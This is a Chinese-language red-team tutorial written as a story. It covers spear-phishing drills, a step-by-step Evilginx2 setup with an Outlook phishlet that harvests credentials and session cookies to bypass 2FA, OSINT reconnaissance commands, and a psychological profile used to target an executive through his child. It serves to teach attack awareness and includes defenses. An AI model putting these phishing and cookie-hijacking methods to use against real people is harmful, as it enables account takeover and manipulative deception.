老周那天下午2点（他处理邮件的时间），收到了这封邮件。

**老周的视角：**
```
📧 老周收到邮件后：

【13:58】
"咦，XX附小发来的邮件？"
"四年级开放日？我儿子正好四年级啊。"
"小升初政策解读... 这个挺重要的，得去听听。"

【13:59】
"每班限10个家庭，额满即止..."
"那得赶紧预约。"

【14:00】
点击链接 → 跳转到"家长服务系统"
"用预留手机号登录..."
"密码...孩子的生日？"

【14:01】
老周输入手机号 + 儿子生日
"登录并预约"
→ 跳转到"预约成功"页面
"预约成功，开放日当天凭此页面入场"

【14:02】
老周心想："搞定，回头跟老婆说一声。"
关掉页面，继续工作。
```

老周完全没意识到自己被钓鱼了。

**演练复盘会：**
```
📊 鱼叉钓鱼演练结果：

【目标】5位安全部核心成员

【结果】
1. 老周（安全总监）→ ✅ 中招
   - 用儿子生日作为密码登录
   - 但这个密码也是他的邮箱密码（密码复用！）

2. 阿凯（红队负责人）→ ❌ 未中招
   - 收到邮件后没点
   - 原因：他孩子才3岁，没上小学，看出不对
   - 教训：情报收集要更精准（应该排除掉孩子年龄不符的）

3. 大刘（蓝队负责人）→ ✅ 中招
   - 孩子5年级，但点进去看了
   - "虽然是5年级，但开放日通知我想看看"
   - 输入了手机号和密码

4. 老马（基础设施）→ ❌ 未中招
   - 邮件直接进了垃圾箱
   - 原因：他用的Foxmail，垃圾邮件过滤比较严

5. 小杨（工具开发）→ ❌ 未中招
   - 没点开邮件
   - 原因：那天他请假了

【中招率】2/4 = 50%（不算请假的）
【关键人物中招率】2/3 = 67%（老周、大刘这种关键人物）

【对比群发钓鱼】
- 群发钓鱼中招率：30%
- 鱼叉钓鱼中招率：50%（且都是关键人物）
- 鱼叉钓鱼的"价值中招率"远高于群发
```

**复盘会上，老周的脸色：**
```
😅 老周的复盘发言：

"我先说，我被钓了。
说实话，我以前觉得自己警惕性挺高的。
但收到那封邮件，我真没看出来是钓鱼。

为什么？
1. 校名是真的
2. 年级是对的
3. 时间是合理的
4. 内容是我关心的（小升初）
5. 限名额、有时间限制 → 我急着点

这封邮件最毒的地方在哪？
'用孩子生日作为初始密码'
这一句话，让我觉得'这是学校的常规做法'
完全没往钓鱼上想。

如果我是真红队，老周今天就完了。
我的邮箱密码也是这个，被拿到之后：
- 公司邮箱 → 看邮件、发邮件
- OA系统 → 同样的密码
- VPN → 同样的密码
- 堡垒机 → 同样的密码（如果没开2FA）
- 安全管理后台 → 同样的密码

一封邮件，端掉整个安全部。

小陈，你这次给我上了一课。
这水平，已经不是'新人'了。
"
```

### 2.7 鱼叉钓鱼的核心：精准

**图126-2 鱼叉钓鱼 vs 群发钓鱼的对比**


**鱼叉钓鱼的核心要点：**
```
🎯 鱼叉钓鱼的核心：

1. 精准大于广度
   - 群发5000封，不如精准打5个高管
   - 5个高管里中招1个，价值远超5000封里中招500个

2. 情报决定一切
   - 没有情报，就没有鱼叉
   - 情报越详细，话术越精准，中招率越高
   - 70%的精力应该花在情报收集上

3. 个性化是关键
   - 通用话术：中招率5%
   - 个性化话术：中招率50%+
   - 个性化包括：称呼、内容、切入点、发送时机

4. 闭环设计要严密
   - 钓鱼邮件 → 钓鱼页面 → 提交后处理
   - 每一步都要让目标"无感"
   - 一个环节露馅，整个攻击失败

5. 选对目标
   - 不是越高越好，要看"性价比"
   - 高管权限大，但难钓（有秘书、警惕性高）
   - 中层管理、关键岗位员工，往往是最佳目标
   - "高价值+中防御" = 最佳鱼叉目标
```

---

## 🦹 Evilginx2：绕过2FA的反向代理钓鱼

### 3.1 2FA的"神话"破灭

第一次鱼叉钓鱼演练成功后，小陈遇到了一个新的问题。

老周被钓之后，痛定思痛，给所有关键账号开了双因素认证（2FA）。

**老周的"防御升级"：**
```
🛡️ 老周的2FA部署：

1. 公司邮箱（Exchange）→ 开启2FA（短信验证码）
2. VPN → 开启2FA（OTP动态口令）
3. 堡垒机 → 开启2FA（OTP动态口令）
4. 安全管理后台 → 开启2FA（短信验证码）
5. OA系统 → 暂未开启（OA厂商还不支持）

老周的原话：
"小陈，你再钓我啊？
现在所有关键账号都开了2FA。
就算你拿到我的密码，没有我的手机，你也登不进去。
2FA一出，谁与争锋？"
```

小陈看着老周得意的样子，没说话。

但他在心里想：

> "2FA真的安全吗？我记得看过一篇文章，说2FA也能被绕过..."
> "是用什么工具来着？Evilginx2？"

那天晚上，小陈开始研究Evilginx2。

### 3.2 Evilginx2是什么？

> 📌 **Evilginx2是什么？**
> Evilginx2是一个开源的中间人攻击（MitM）钓鱼框架。
> 由Marek Olszewski（GitHub: kgretzky）开发。
> 它的核心能力是：**绕过双因素认证（2FA/MFA）**。
>
> 原理：充当"反向代理"，在用户和真实网站之间，做中间人。
> 用户访问钓鱼链接 → Evilginx2 → 真实网站
> 用户在钓鱼页面登录 → Evilginx2把请求转发给真实网站
> 真实网站返回2FA验证 → Evilginx2转发给用户
> 用户输入2FA验证码 → Evilginx2转发给真实网站
> 真实网站登录成功 → 设置Session Cookie → Evilginx2拦截这个Cookie
>
> 拿到Session Cookie后，攻击者可以直接用这个Cookie访问真实网站，**不需要再登录，也不需要2FA**。
>
> GitHub: https://github.com/kgretzky/evilginx2

**图126-3 Evilginx2绕过2FA的原理**
```mermaid
sequenceDiagram
    participant User as 用户
    participant Evil as Evilginx2<br/>(反向代理)
    participant Real as 真实网站<br/>(如 outlook.com)
    
    User->>Evil: 1. 访问钓鱼链接 phish.com
    Evil->>Real: 2. 代理请求，获取真实登录页
    Real->>Evil: 3. 返回登录页HTML
    Evil->>User: 4. 返回登录页（URL显示phish.com）
    
    User->>Evil: 5. 输入账号+密码
    Evil->>Real: 6. 转发账号+密码
    Real->>Evil: 7. 要求2FA验证
    Evil->>User: 8. 转发2FA输入页面
    
    User->>Evil: 9. 输入2FA验证码
    Evil->>Real: 10. 转发2FA验证码
    Real->>Evil: 11. 验证通过，设置Session Cookie
    Evil->>User: 12. 返回登录成功页面
    
    Note over Evil: 13. Evilginx2记录了<br/>Session Cookie!
    
    Note over User,Real: 用户以为正常登录了
    
    participant Attacker as 攻击者
    Attacker->>Real: 14. 用Session Cookie直接访问
    Real->>Attacker: 15. 返回已登录状态，无需2FA!
    
    style Evil fill:#ff9999
    style Attacker fill:#ff6666
```

**Evilginx2 vs 普通钓鱼：**
```
📊 Evilginx2和普通钓鱼的对比：

【普通钓鱼】
1. 用户输入账号密码 → 钓鱼服务器记录
2. 钓鱼服务器拿到账号密码
3. 攻击者用账号密码登录
4. 但目标开了2FA → 登录失败
5. 攻击者被2FA挡住

【Evilginx2钓鱼】
1. 用户输入账号密码 → Evilginx2转发给真实网站
2. 真实网站要求2FA → Evilginx2转发给用户
3. 用户输入2FA → Evilginx2转发给真实网站
4. 真实网站验证通过，返回Session Cookie
5. Evilginx2拦截Session Cookie
6. 攻击者用Session Cookie直接访问 → 无需2FA！

【关键区别】
- 普通钓鱼：拿到的是"凭证"（账号密码），被2FA挡住
- Evilginx2：拿到的是"会话"（Session Cookie），绕过2FA

为什么Session Cookie能绕过2FA？
因为2FA只在"登录时"验证。
登录成功后，服务器给你一个Session Cookie，
后续所有的请求，都凭这个Cookie识别身份。
攻击者拿到Cookie，相当于"借用"了用户的会话，
服务器以为是用户本人在操作，不会再要2FA。
```

### 3.3 安装和配置Evilginx2

小陈在测试服务器上安装了Evilginx2。

**安装过程：**
```bash
# Evilginx2是Go语言写的，需要先安装Go
# 安装Go（Ubuntu/Debian）
sudo apt update
sudo apt install golang-go -y

# 验证Go安装
go version
# 输出：go version go1.19.x linux/amd64

# 安装依赖
sudo apt install git make -y

# 克隆Evilginx2仓库
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2

# 编译
make

# 编译完成后，会在build目录下生成evilginx2可执行文件
# 把它放到PATH里
sudo cp build/evilginx2 /usr/local/bin/

# 创建配置和数据目录
sudo mkdir -p /etc/evilginx2
sudo mkdir -p /var/lib/evilginx2

# Evilginx2需要80和443端口，确保没被占用
sudo lsof -i:80
sudo lsof -i:443

# 启动Evilginx2
sudo evilginx2

# 启动后进入交互式命令行
# Evilginx2的提示符是：
# evilginx2>
```

> 💡 **小陈的踩坑记录：**
> ```
> 踩坑1：端口被Nginx占用
>   - 80和443被Nginx占了
>   - 解决：停掉Nginx，或者把Nginx换到其他端口
>   - 或者：让Evilginx2监听其他端口，用Nginx反代（高级用法）
>
> 踩坑2：DNS解析问题
>   - Evilginx2内置DNS服务器，会接管DNS解析
>   - 需要把钓鱼域名的NS记录指向Evilginx2服务器
>   - 或者在域名服务商那里，把A记录指向Evilginx2服务器
>
> 踩坑3：证书问题
>   - Evilginx2会自动申请Let's Encrypt证书
>   - 但需要域名已经解析到服务器
>   - 而且需要80端口能被外网访问（用于证书验证）
> ```

### 3.4 配置钓鱼站点（Phishlet）

Evilginx2用"Phishlet"来配置钓鱼站点。Phishlet是一个YAML格式的配置文件，描述了：
- 要代理的真实网站
- 钓鱼域名
- 要拦截的Cookie

**Evilginx2自带的Phishlet：**
```
📋 Evilginx2自带的Phishlet（部分）：

位于 evilginx2/phishlets/ 目录下：
- outlook.yml        → Microsoft Outlook邮箱
- owa.yml             → Exchange OWA邮箱
- office365.yml       → Office 365
- gmail.yml           → Gmail
- github.yml          → GitHub
- linkedin.yml        → 领英
- twitter.yml         → Twitter
- facebook.yml        → Facebook
- instagram.yml       → Instagram
- protonmail.yml      → ProtonMail
- ...
```

** outlook.yml 示例（Outlook邮箱的Phishlet）：**
```yaml
# outlook.yml - Outlook邮箱钓鱼配置
# 文件位置：phishlets/outlook.yml

author: "@kgretzky"
min_ver: 2.3.0
proxy_hosts:
  - {phish_sub: 'login', orig_sub: 'login', domain: 'live.com', session: true, is_landing: true}
  - {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com', session: true, is_landing: false}
  - {phish_sub: 'account', orig_sub: 'account', domain: 'live.com', session: true, is_landing: false}
auth_tokens:
  domain: '.live.com'
  keys:
    - 'MSCC'
    - 'MSPAuth'
    - 'MSAuth1'
    - 'APISID'
    - 'SAPISID'
    - 'HSID'
    - 'SSID'
    - 'SID'
    - '__Secure-1PSID'
    - '__Secure-3PSID'
credentials:
  username:
    key: 'login'
    search: '(.*)'
    type: 'post'
  password:
    key: 'passwd'
    search: '(.*)'
    type: 'post'
```

**Phishlet配置说明：**
```
📋 Phishlet关键字段说明：

【proxy_hosts】
- 配置反向代理的目标网站
- phish_sub: 钓鱼子域名前缀
- orig_sub: 真实网站的子域名前缀
- domain: 真实网站域名
- session: 是否在会话中保持代理
- is_landing: 是否是着陆页（用户首先访问的页面）

【auth_tokens】
- 要拦截的Cookie
- 这些Cookie就是攻击者要偷的"会话凭证"
- domain: Cookie所属域名
- keys: Cookie的名称列表

【credentials】
- 要记录的凭证
- username/password的字段名
- type: 'post' 表示从POST请求中提取
```

### 3.5 启动Evilginx2钓鱼

**Evilginx2操作流程：**
```bash
# 启动Evilginx2
sudo evilginx2

# 进入交互式命令行
evilginx2>

# 第一步：配置域名（你注册的钓鱼域名）
evilginx2> config domain company-update.com

# 第二步：配置IP（你的服务器IP）
evilginx2> config ip 1.2.3.4

# 第三步：启用开发者模式（自动申请Let's Encrypt证书）
evilginx2> config developer true

# 第四步：加载Phishlet（以outlook为例）
evilginx2> phishlets outlook

# 第五步：配置Phishlet的域名
evilginx2> phishlets hostname outlook mail.company-update.com

# 第六步：启用Phishlet
evilginx2> phishlets enable outlook

# 这时Evilginx2会：
# 1. 自动申请Let's Encrypt证书
# 2. 启动反向代理
# 3. 监听80和443端口

# 第七步：创建钓鱼活动
# 格式：lures create <phishlet_name>
evilginx2> lures create outlook

# 系统会返回一个lure ID，比如1

# 第八步：配置lure
# 设置钓鱼链接的路径
evilginx2> lures set path 1 /login
# 设置钓鱼链接的redirect（用户登录后跳转的页面）
evilginx2> lures set redirect 1 https://mail.company.com/

# 第九步：查看钓鱼链接
evilginx2> lures get-url 1
# 输出：https://mail.company-update.com/login

# 这个链接就是要发给目标的钓鱼链接
```

**Evilginx2常用命令速查：**
```
📋 Evilginx2常用命令：

【配置类】
config domain <domain>          → 设置钓鱼域名
config ip <ip>                  → 设置服务器IP
config developer true           → 启用开发者模式（自动证书）

【Phishlet类】
phishlets                       → 列出所有phishlet
phishlets <name>                → 查看某个phishlet详情
phishlets hostname <name> <host> → 配置phishlet的钓鱼域名
phishlets enable <name>         → 启用phishlet
phishlets disable <name>        → 禁用phishlet
phishlets delete <name>         → 删除phishlet

【Lure类（钓鱼链接）】
lures                           → 列出所有lure
lures create <phishlet>         → 创建lure
lures get-url <id>              → 获取钓鱼链接
lures set path <id> <path>      → 设置URL路径
lures set redirect <id> <url>   → 设置跳转地址
lures set phishlet <id> <name>  → 设置lure对应的phishlet

【监控类】
sessions                        → 查看所有捕获的会话
sessions <id>                   → 查看某个会话详情
logs                            → 查看日志
```

### 3.6 第一次Evilginx2演练

小陈用Evilginx2做了一次内部演练，目标是公司的Office 365邮箱。

**演练配置：**
```
📋 Evilginx2演练配置：

【目标】
公司Office 365邮箱（已开启2FA）

【钓鱼域名】
mail.company-update.com（已配置DNS解析到Evilginx2服务器）

【Phishlet】
使用office365.yml（Evilginx2自带）

【钓鱼链接】
https://mail.company-update.com/login

【演练对象】
公司安全部的5个成员（已开2FA）
```

**演练过程：**
```
📊 Evilginx2演练过程：

【10:00】小陈发送钓鱼邮件
"【IT通知】邮箱容量告警，请登录清理"
链接指向 https://mail.company-update.com/login

【10:15】阿凯点开了链接
- 看到的页面：和真实的Office 365登录页一模一样
- URL：mail.company-update.com（以为是子域名）
- 输入账号密码

【10:16】页面跳转到2FA验证
- "请输入Microsoft Authenticator上的验证码"
- 阿凯掏出手机，输入6位验证码

【10:17】登录成功
- 跳转到真实的Outlook邮箱
- 阿凯开始看邮件，毫无察觉

【10:17】Evilginx2后台
- sessions命令显示：
  Session ID: 1
  Username: aka@company.com
  Password: ********
  Tokens: 12个Session Cookie已捕获
  Status: COMPLETE

【10:18】小陈用Cookie登录
- 用浏览器插件Cookie Editor
- 把捕获的Cookie导入浏览器
- 访问 outlook.office.com
- 直接进入阿凯的邮箱，无需2FA！
```

**演练结果：**
```
📊 Evilginx2演练结果：

【中招情况】
- 5个人中3个点开了链接
- 3个人中2个完整完成了登录+2FA
- 2个人都被抓到了Session Cookie

【2FA绕过情况】
- 2个中招的人，2FA都被成功绕过
- 攻击者可以用Cookie直接访问邮箱
- 2FA形同虚设

【阿凯的反应】
"什么？！我被钓了？
不对啊，我有2FA啊！
我明明输的验证码是有效的啊！
怎么会被绕过？"

【小陈的解释】
"你的2FA没问题。
你输入的验证码也确实验证通过了。
但是Evilginx2做的事是：
1. 在你和真实网站之间，做中间人
2. 你所有的操作，都被它转发给了真实网站
3. 真实网站验证通过，给了你一个Session Cookie
4. 这个Cookie，被Evilginx2截获了
5. 我用这个Cookie，就相当于'借'了你的会话
6. 服务器以为是你在操作，不会再要2FA"

【老周的反应】
"...2FA也不是万能的啊。"
"那怎么办？"
```

### 3.7 2FA不是万能的

**2FA的局限性：**
```
🔓 2FA的局限性：

【2FA能防什么】
- 防密码泄露后被他人登录
- 防撞库攻击
- 防暴力破解
- 防钓鱼邮件直接偷密码

【2FA防不了什么】
- 中间人攻击（Evilginx2、Modlishka）
- 实时会话劫持
- SIM卡劫持（短信2FA）
- 推送通知疲劳攻击
- 设备被恶意软件感染（直接偷Cookie）

【为什么Evilginx2能绕过2FA】
2FA的验证发生在"登录"这一刻。
登录成功后，服务器给你一个"通行证"（Session Cookie）。
后续你所有的操作，都凭这个通行证。
服务器不会再问你要2FA。

Evilginx2做的事：
- 让用户在"假页面"登录（其实是真页面，被代理了）
- 用户输入2FA（被代理转发了）
- 服务器验证通过，发通行证
- Evilginx2拦截通行证
- 攻击者用通行证，畅通无阻

本质上：2FA验证的是"登录者"，但拿到Cookie后，
攻击者不需要"登录"，他直接"借用"了已登录的会话。
```

**图126-4 2FA的攻防博弈**


### 3.8 怎么防Evilginx2？

**防御Evilginx2的方法：**
```
🛡️ 防御Evilginx2的方法：

1. 域名验证（最有效）
   - 用户登录时，仔细看URL
   - 真实：outlook.com
   - 钓鱼：mail.company-update.com
   - 缺点：大部分用户不会看URL

2. FIDO2硬件密钥（最安全）
   - YubiKey等硬件密钥
   - 基于公私钥加密，绑定域名
   - 在phish.com上，密钥不会工作
   - 这是唯一能完全防Evilginx2的方法
   - 缺点：成本高，部署复杂

3. 条件访问（Conditional Access）
   - 微软/Google的企业版支持
   - 设置"只允许公司IP/设备登录"
   - 攻击者从外部IP用Cookie访问，会被拒
   - 缺点：可能误伤合法的远程办公

4. 异常会话检测
   - 监控Session Cookie的异常使用
   - 比如短时间内IP跳变
   - 比如同一Cookie在不同设备使用
   - 缺点：需要高级的SIEM系统

5. 安全意识培训
   - 教用户识别钓鱼链接
   - 教用户看URL
   - 教用户不要在不熟悉的页面输入2FA
   - 缺点：人永远是最薄弱的环节

6. 浏览器扩展检测
   - 一些浏览器扩展能检测Evilginx2
   - 比如检测是否被反向代理
   - 缺点：不是100%可靠
```

> 💡 **小陈的总结：**
> "2FA不是银弹。它提高了攻击门槛，但不是不可绕过的。
> 真正的安全，是多层次防御：
> - 密码 + 2FA + 设备绑定 + 行为分析 + 安全意识
> 任何单一措施都不能保证100%安全。
> Evilginx2的存在告诉我们：不要因为开了2FA就高枕无忧。"

---

## 🌐 第一次护网红队：社工钓鱼环节

### 4.1 接到任务

2024年10月，小陈接到一个重要任务。

公司接到了一个护网行动的邀请——但这次不是做防守，而是做**外部红队**，去攻击另一家公司。

这家目标公司，叫"XX集团"（化名），是一家大型制造业企业，员工5000+人。

**护网红队任务书（节选）：**
```
📋 护网红队任务书（脱敏版）

【目标】XX集团（大型制造业）
【规模】5000+员工，全国有20+子公司
【时间】7天
【任务】模拟外部攻击者，检验XX集团的防护能力

【红队组成】（共8人）
- 队长：飞哥（10年红队经验）
- Web渗透：阿豪、小林
- 内网渗透：阿斌
- 社工钓鱼：小陈 ← 这就是小陈的活儿
- 情报收集：阿飞
- 基础设施：老马
- 报告：阿凯

【分工】
- Web打点：阿豪、小林
- 内网渗透：阿斌
- 社工钓鱼：小陈（独立负责）
- 情报支持：阿飞
- 基础设施：老马
- 总指挥：飞哥

【小陈的KPI】
- 通过钓鱼拿到至少1个高管邮箱
- 通过钓鱼进入内网
- 配合内网组拿到核心系统权限
```

小陈看到任务书，心里既兴奋又紧张。

**兴奋：**
- 第一次参加真正的外部红队
- 自己负责社工钓鱼这一块
- 终于可以"真刀真枪"地干了

**紧张：**
- 这次的对手是真实的企业
- 不是公司内部的演练了
- 万一搞砸了，影响团队声誉

**小陈的内心戏：**
```
😰 小陈的内心戏：

"我能行吗？"
"对手是5000+人的大企业，不是公司内部演练了。"
"而且他们家肯定做过安全培训..."
"我的钓鱼能打到他们吗？"

"但是..."
"飞哥把社工钓鱼这块交给我了。"
"这是对我的信任。"
"我得顶上去。"

"再说，我研究了这么久，也该拿出来真刀真枪地试试了。"
"Evilginx2、鱼叉钓鱼、OSINT..."
"是骡子是马，拉出来遛遛。"
```

### 4.2 战前准备

护网前一周，红队开始战前准备。

**小陈的准备工作：**
```
📋 小陈的战前准备清单：

【基础设施】
□ 钓鱼服务器 ×3（防止被ban）
□ 钓鱼域名 ×5
  - xxgroup-update.com
  - xxgroup-mail.com
  - xxgroup-it.com
  - xxgroup-portal.com
  - xxgroup-hr.com
□ 邮件服务器（Postfix + OpenDKIM）
□ Evilginx2服务器
□ Gophish平台
□ 代理池（防止IP被封）

【工具准备】
□ Gophish（群发钓鱼）
□ Evilginx2（绕2FA）
□ theHarvester（邮箱收集）
□ Maltego（OSINT可视化）
□ Sublist3r（子域名收集）
□ Hunter.io（邮箱验证）
□ Holehe（社交媒体账号查询）

【情报收集】
□ 目标公司组织架构
□ 关键人物名单
□ 员工邮箱列表
□ 公司IT系统清单
□ 公开的泄露数据

【钓鱼资产】
□ 邮件模板 ×5（针对不同岗位）
□ 钓鱼页面 ×3（OA、邮箱、VPN）
□ 钓鱼附件（带宏的Office文档）

【应急预案】
□ 域名被封 → 切换备用域名
□ IP被ban → 切换代理
□ 被蓝队发现 → 暂停钓鱼，等风头过
```

### 4.3 情报收集：把目标公司"扒"个底朝天

战前一周，小陈和情报组的阿飞一起，开始对XX集团进行OSINT情报收集。

**OSINT情报收集计划：**
```
🎯 XX集团OSINT情报收集计划：

【第一阶段：公司层面】
1. 公司官网 → 业务、组织架构、子公司
2. 招聘网站 → 团队结构、技术栈
3. 工商信息 → 法人、股东、分支机构
4. 行业报告 → 业务规模、合作伙伴
5. 新闻报道 → 近期动态、领导活动

【第二阶段：人员层面】
1. LinkedIn → 高管和中层管理人员
2. 脉脉 → 公司员工
3. 微博/微信 → 公开信息
4. GitHub → 公司开发人员
5. 招聘网站 → 离职/在职员工

【第三阶段：技术层面】
1. 子域名 → 子公司、内部系统
2. 端口扫描 → 对外服务
3. 证书透明度 → 隐藏子域名
4. DNS记录 → 邮件服务器、DNS服务器
5. Web指纹 → 用的什么OA、什么邮箱

【第四阶段：泄露数据】
1. Have I Been Pwned → 邮箱是否泄露
2. 各大泄露库 → 历史密码
3. Pastebin → 公开的泄露
4. GitHub → 是否有员工提交过密码
5. 网盘泄露 → 公司内部资料
```

**OSINT收集实战：**
```bash
# 1. 用theHarvester收集邮箱
theHarvester -d xxgroup.com -b all

# 输出（脱敏）：
# [*] Emails found: 87
# ceo@xxgroup.com
# cto@xxgroup.com
# hr@xxgroup.com
# it-support@xxgroup.com
# wangxx@xxgroup.com（办公室主任）
# lixx@xxgroup.com（财务总监）
# ...（共87个邮箱）

# 2. 用Sublist3r收集子域名
python3 sublist3r.py -d xxgroup.com

# 输出（脱敏）：
# oa.xxgroup.com
# mail.xxgroup.com
# vpn.xxgroup.com
# hr.xxgroup.com
# finance.xxgroup.com
# git.xxgroup.com
# ...（共42个子域名）

# 3. 用crt.sh查证书透明度
curl -s "https://crt.sh/?q=%25.xxgroup.com&output=json" | jq -r '.[].name_value' | sort -u

# 4. 用nmap扫描外网服务
nmap -sS -p- -T4 --min-rate 1000 xxgroup.com

# 5. 用whatweb识别Web指纹
whatweb https://oa.xxgroup.com
# 输出：Apache, Confluence, PHP

# 6. 查邮箱是否泄露
# 用haveibeenpwned的API
curl -s "https://haveibeenpwned.com/api/v3/breachedaccount/ceo@xxgroup.com" \
  -H "hibp-api-key: YOUR_API_KEY"

# 7. 用Holehe查社交媒体账号
holehe ceo@xxgroup.com

# 8. LinkedIn OSINT
# 用linkedin-scraper抓取公司员工
python3 linkedin-scraper.py -c "XX集团"
```

**Maltego可视化分析：**
```
📊 Maltego是OSINT的可视化工具

小陈用Maltego，把收集到的信息做了可视化：

【公司节点】XX集团
├── 【人员节点】87个邮箱对应的人
│   ├── 高管 ×5（CEO/CTO/CFO/COO/CIO）
│   ├── 中层管理 ×23
│   ├── 普通员工 ×59
│   └── 关键人物：王主任（办公室主任）
├── 【技术节点】42个子域名
│   ├── OA系统（Confluence）
│   ├── 邮箱系统（Exchange）
│   ├── VPN（深信服）
│   ├── HR系统（自研）
│   └── 财务系统（用友）
├── 【泄露节点】
│   ├── 12个邮箱在泄露库中
│   ├── 3个有效密码（历史泄露）
│   └── 2个GitHub提交泄露了API key
└── 【关联节点】
    ├── 合作伙伴：YY科技
    ├── 子公司：XX制造、XX物流
    └── 上下游：ZZ供应商
```

> 💡 **Maltego是什么？**
> Maltego是OSINT的可视化分析工具，能把各种关联信息画成图谱。
> 比如一个邮箱 → 关联到人 → 关联到社交媒体 → 关联到公司 → 关联到其他邮箱。
> 通过图谱，能发现隐藏的关系。
> 小陈说："Maltego一打开，目标就'透明'了一半。"

### 4.4 难题：全员安全培训后的"铁桶阵"

情报收集做完，小陈开始试探性钓鱼。

第一波：群发钓鱼邮件，发给普通员工。

**第一波群发钓鱼：**
```
📧 第一波群发钓鱼：

【目标】从收集到的87个邮箱中，选30个普通员工
【内容】伪装IT部门，"邮箱密码过期"
【域名】xxgroup-update.com
【发送】周一上午10点

【结果】
- 发送：30封
- 送达：30封
- 打开：2封（打开率6.7%）
- 点击：0人
- 中招：0人

【反馈】
- 5个员工直接把邮件标记为垃圾邮件
- 2个员工把邮件转发给IT部门，问"这是不是钓鱼？"
- 1个员工在全公司群里发："最近有钓鱼邮件，大家注意！"
```

**0%中招率。**

小陈有点傻眼。

飞哥看了看数据，皱了皱眉：
> "这个XX集团，防御做得不错啊。
> 看起来他们做过全员安全意识培训。"

阿飞补充：
> "我做情报的时候，看到他们公司内网上有'安全意识培训'的报道。
> 而且他们去年还做过钓鱼演练。
> 普通员工对'密码过期'这种老套路，已经免疫了。"

**小陈的判断：**
```
🤔 小陈的分析：

【情况】
XX集团做过全员安全培训 + 钓鱼演练
普通员工对常规钓鱼免疫了

【常规钓鱼为什么失效】
1. "密码过期"这种套路，培训里讲过
2. "IT部门"发件人，培训里讲过
3. 钓鱼链接特征，培训里讲过
4. 员工已经形成了"看到可疑邮件就报告"的习惯

【怎么办】
- 群发钓鱼肯定不行了
- 必须用鱼叉钓鱼
- 而且话术要"超出培训范围"
- 培训没讲过的套路，才能奏效
```

**飞哥的指示：**
> "小陈，群发先停。
> 你专注做鱼叉，针对关键人物。
> 不要贪多，瞄准几个高价值目标，一击必中。
>
> 我们要的不是'钓到多少员工'，
> 而是'钓到关键人物'。
> 一个高管邮箱，胜过100个普通员工账号。"

### 4.5 深入调研：找到关键人物

小陈开始深入调研，找最有价值的"关键人物"。

**关键人物筛选：**
```
🎯 XX集团关键人物筛选：

【高价值目标】
1. CEO（陈总）→ 权限最高，但很难钓
   - 有秘书过滤邮件
   - 警惕性极高
   - 不太可能点钓鱼链接

2. CTO（刘总）→ 权限高，技术出身
   - 也比较警惕
   - 但对"技术相关"的内容可能感兴趣

3. CFO（李总）→ 财务权限，价值高
   - 财务系统权限
   - 能看到财报、资金流向

4. 办公室主任（王主任）→ 关键中间人
   - 负责公司文件流转
   - 接触高管的机会多
   - 权限不算最高，但"够用"

5. IT运维主管（张工）→ IT系统权限
   - 域账号权限可能很高
   - 可能是域管
   - 但IT人员最难钓

【最佳目标选择】
- 不是CEO（太难）
- 不是IT主管（太警惕）
- 最佳：办公室主任 王主任

为什么选王主任？
1. 价值高：办公室主任接触大量内部文件
2. 防御中：不是高管，没有秘书过滤
3. 可达性：邮箱公开，邮件能直接到
4. 软肋：通过OSINT发现，他儿子今年高考
```

**王主任的社工画像：**
```
👤 王主任（XX集团办公室主任）画像

【基本信息】
- 姓名：王XX
- 年龄：45岁
- 职位：办公室主任（中层）
- 工龄：22年（在XX集团15年）
- 家庭：已婚，一子（18岁，今年高考）
- 居住：某市
- 爱好：书法、爬山、看新闻
- 性格：稳重、办事仔细、有点"老派"

【工作信息】
- 直接汇报：CEO
- 职责：公司文件流转、会议组织、对外接待
- 权限：
  * OA系统管理员权限
  * 文档管理系统
  * 内部通讯录
  * 公司印章管理
- 邮箱：wangxx@xxgroup.com

【行为习惯】
- 早上8:00到公司
- 邮件查看频率高（每天10+次）
- 用Outlook客户端
- 手机：iPhone
- 经常在微信群活跃（公司群、同学群、家庭群）

【心理特征】
- 最在意：儿子的前途（高考是大事）
- 最害怕：儿子考不上好大学
- 最渴望：儿子能上985/211
- 软肋：高考相关的事，警惕性会下降

【社交关系】
- 老婆：某中学老师
- 儿子：某重点高中高三
- 同学：大学同学在各行各业
- 同事：和CEO关系密切
```

**为什么选王主任——小陈的分析：**
```
🧠 小陈的"目标选择逻辑"：

1. 高管（CEO/CTO/CFO）虽然权限高，但：
   - 有秘书过滤邮件
   - 警惕性高
   - 不太会自己点链接
   - 钓鱼成功率低

2. 王主任的"性价比"最高：
   - 权限中等偏上（OA管理员 + 文档管理）
   - 没有秘书过滤，邮件直达
   - 邮件查看频率高（办公室主任必须及时看邮件）
   - 儿子高考是绝佳切入点

3. 拿到王主任账号后能做什么：
   - OA管理员 → 看所有OA数据（包括高管的OA数据）
   - 文档管理 → 看公司核心文件
   - 内部通讯录 → 拿到所有人的联系方式
   - 用OA管理员账号 → 可能横向到其他系统

4. 切入点：儿子高考
   - 王主任儿子今年高考（6月）
   - 10月正是"高考志愿填报"后的"大一新生入学"阶段
   - 可以设计"大学新生入学须知"邮件
   - 或者"奖学金到账通知"
   - 或者"大学生家长会"
```

### 4.6 定制化鱼叉方案：针对不同岗位

王主任确定为目标后，小陈没有急着发邮件。

他先做了一个完整的"鱼叉钓鱼方案"，针对XX集团的几个关键岗位，分别设计了不同的话术。

**针对不同岗位的鱼叉方案：**
```
📋 针对XX集团的差异化鱼叉方案：

【方案1：针对办公室主任 王主任】
- 切入点：儿子刚上大学
- 话术："XX大学新生家长会通知"
- 价值：★★★★★（OA管理员权限）

【方案2：针对财务总监 李总】
- 切入点：报销/审计
- 话术："2024年度财务审计资料提交"
- 价值：★★★★（财务系统权限）

【方案3：针对HR总监 赵姐】
- 切入点：员工薪酬
- 话术："2024年薪酬调研报告（含同行业数据）"
- 价值：★★★（HR系统权限）

【方案4：针对运维主管 张工】
- 切入点：系统告警
- 话术："OA系统异常登录告警"
- 价值：★★★★★（可能是域管）
- 难度：★★★★★（IT人员最难钓）

【方案5：针对普通高管秘书】
- 切入点：会议安排
- 话术："CEO临时会议通知"
- 价值：★★★（能接触高管信息）
```

**重点：王主任的鱼叉方案**

小陈把80%的精力放在王主任身上。

**王主任鱼叉方案详解：**
```
🎯 王主任鱼叉钓鱼方案（v3.0）：

【情报基础】
- 儿子：王同学，18岁，今年高考
- 高考成绩：632分（OSINT：王主任微博发过）
- 录取学校：XX大学（OSINT：王主任朋友圈发过）
- 专业：计算机科学（OSINT：脉脉上王主任提过）
- 入学时间：2024年9月

【时间选择】
- 10月中旬，新生入学1个月
- 这个时间点，大学会有"新生家长会"
